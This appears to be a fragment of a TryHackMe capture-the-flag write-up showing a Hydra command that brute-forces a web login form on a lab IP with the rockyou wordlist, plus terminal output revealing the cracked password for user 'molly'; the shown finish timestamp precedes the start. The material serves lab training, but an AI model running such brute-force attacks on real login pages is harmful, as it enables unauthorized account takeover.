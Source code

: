 ![](2020-10-03_09-10.png)

`hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.132.190 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.132.190 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 09:39:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.132.190:80/login:username=^USER^&password=^PASS^:incorrect
[STATUS] 1132.00 tries/min, 1132 tries in 00:01h, 14343267 to do in 211:11h, 16 active
[STATUS] 1229.00 tries/min, 3687 tries in 00:03h, 14340712 to do in 194:29h, 16 active
[STATUS] 1209.14 tries/min, 8464 tries in 00:07h, 14335935 to do in 197:37h, 16 active

[80][http-post-form] host: 10.10.132.190   login: molly   password: joyness1994
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 19:06:06
```

![](2020-10-03_09-37.png)

